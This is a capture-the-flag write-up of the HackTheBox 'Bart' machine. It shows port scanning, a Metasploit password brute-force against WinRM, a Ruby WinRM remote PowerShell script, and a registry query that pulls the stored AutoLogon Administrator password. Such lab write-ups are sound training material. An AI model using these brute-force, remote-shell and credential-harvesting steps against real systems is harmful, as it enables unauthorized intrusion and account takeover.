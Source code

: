```yaml
---
layout: post
title: HackTheBox - Bart Writeup
tags: [hackthebox]
---
```

This writeup is from a few months ago. I've currently been super busy with OSCE and whatnot. Overall this wasn't too bad of a box and I learned a new WinRM trick in the process. 


## Enumeration

Start with a quick nmap scan and also a full scan once the quick one is completed.

```
root@kali:~/htb/bart# nmap -sV 10.10.10.81

Starting Nmap 7.60 ( https://nmap.org )
Nmap scan report for 10.10.10.81
Host is up (0.071s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

root@kali:~/htb/bart# nmap -p- 10.10.10.81 -T4

Starting Nmap 7.60 ( https://nmap.org ) 
Nmap scan report for 10.10.10.81
Host is up (0.073s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 98.49 seconds
```

Only two ports to work with, port 5985 is for WinRM so hopefully we'll be able to leverage that if we find some credentials.

If we check out the web server in a browser we get a 302 response, however we can see the virtual host name in the Location header.

![302](/img/bart-302.png)

If we add an entry in our /etc/hosts file for that domain name and IP we are able to browse the site.

Scrolling down on the page we find some possible users to target.

![team](/img/bart-team.png)

Even more interesting is if we check the source code of the page we see another user named Harvey, who's been commented out.

![source](/img/bart-source.png)

The user's email addresses in the mailto field is probably going to reflect their username on the system if it exists. So we have:

```
s.brown@bart.local
d.simmons@bart.htb
r.hilton@bart.htb
h.potter@bart.htb
```

To help brute force WinRM we can use the metasploit module `auxiliary/scanner/winrm/winrm_login`.

We'll start with h.potter since he's listed as a developer, so there's a good chance he has credentials on the box.

```
msf > use auxiliary/scanner/winrm/winrm_login
msf auxiliary(scanner/winrm/winrm_login) > show options

Module options (auxiliary/scanner/winrm/winrm_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DOMAIN            WORKSTATION      yes       The domain to use for Windows authentification
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             5985             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   URI               /wsman           yes       The URI of the WinRM service
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.81
RHOSTS => 10.10.10.81
msf auxiliary(scanner/winrm/winrm_login) > set USERNAME h.potter
USERNAME => h.potter

msf auxiliary(scanner/winrm/winrm_login) > set PASS_FILE /usr/share/wordlists/fasttrack.txt
PASS_FILE => /usr/share/wordlists/fasttrack.txt
 
msf auxiliary(scanner/winrm/winrm_login) > set DOMAIN BART.HTB
DOMAIN => BART.HTB
msf auxiliary(scanner/winrm/winrm_login) > run
~~~
~~~
~~~
[+] 10.10.10.81:5985 - Login Successful: BART.HTB\h.potter:Password1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Yes! We can see that Mr. Potter has some weak credentials. Trying to use another metasploit module leveraging these credentials to get code execution we are unsuccessful and are just presented with 500 errors in response. This is due to metasploit's winrm modules not currently supporting encryption. By default WinRM requires encryption, unless specifically disabled by the Administrator.

So to aid us we can use the Ruby winrm package.

<https://github.com/WinRb/WinRM>

We can easily install and configure a script similar to the example shown on the readme.

```
root@kali:~/htb/bart# gem install -r winrm
```

Ruby script contents:

```ruby
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://10.10.10.81:5985/wsman',
  user: 'BART.HTB\h.potter',
  password: 'Password1',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```

```
root@kali:~/htb/bart# ruby winrm_shell.rb 
PS > whoami
bart\h.potter
PS > hostname
BART
```

We are in!

## Privilege Escalation

There are a lot of things to get wrapped up in and lost for privilege escalation here, but keeping it simple and following a methodology checking simple things first allows us to easily escalate here.

```powershell
PS > Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"

DefaultDomainName DefaultUserName DefaultPassword                 
----------------- --------------- ---------------                 
DESKTOP-7I3S68E   Administrator   3130438f31186fbaf962f407711faddb
```

And we can see that the Administrator's credentials were configured in the AutoLogon registry settings.

So now all we have to do is edit our winrm_shell.rb and add in the Administrator credentials in place of h.potter's.

```ruby
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://10.10.10.81:5985/wsman',
  user: 'BART.HTB\Administrator',
  password: '3130438f31186fbaf962f407711faddb',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```

```
root@kali:~/htb/bart# ruby winrm_shell.rb 
PS > whoami
bart\administrator
```

